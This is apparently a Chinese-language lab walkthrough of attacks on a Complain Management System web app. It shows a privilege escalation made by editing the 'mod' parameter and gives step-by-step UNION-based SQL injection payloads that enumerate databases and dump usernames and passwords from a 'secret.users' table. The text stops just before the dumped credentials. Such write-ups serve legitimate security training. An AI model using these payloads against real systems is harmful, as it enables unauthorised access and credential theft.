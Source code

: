 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)分别访问目录`/joomla`、`/complain`![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)在`/joomla`目录中未发现可利用点![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)`/comlain`目录则采用了 Complain Management System，默认账号密码为 admin/admin123

### 垂直越权漏洞

使用默认账号密码登录失败，尝试在注册页面`http://10.10.10.71:8080/complain/register.php`中注册账户，设置账号密码为 admin/admin123，用户类型为 Customer![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)注册完成后进入用户界面，点击`View Complain Details`发现其参数对应的是`mod=customer&view=compDetails`![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)将`mod`修改为admin，可以垂直越权看到投诉详情![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

### SQL注入漏洞

Complain Management System 除了越权以外还存在SQL注入漏洞，漏洞地址为`http://10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans`，我们尝试进行手工注入 **参考文章1：https://www.exploit-db.com/exploits/42968** **参考文章2：https://www.exploit-db.com/exploits/41131**

首先看看数据库的基本信息，当前数据库版本为 5.7.19，当前用户为 Dbuser@localhost

```
id=engineer union all select 1,version(),3,user(),5,database(),7--  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)查看所有数据库名，其中包含`secret`、`Joomla`等

```
id=engineer union all select 1,schema_name,3,4,5,6,7 from information_schema.schemata--  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)查看`secret`数据库中的所有表，其中包含`users`表 **注：需要将库名修改为hex编码**

```
id=engineer union all select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=0x736563726574--  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)查看`users`表中所有列名

```
id=engineer union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name=0x7573657273--  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)获取`users`表中字段`username`和`password`当中的数据

```
id=engineer union all select 1,username,password,4,5,6,7 from secret.users--  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)获取到的账号密码如下：
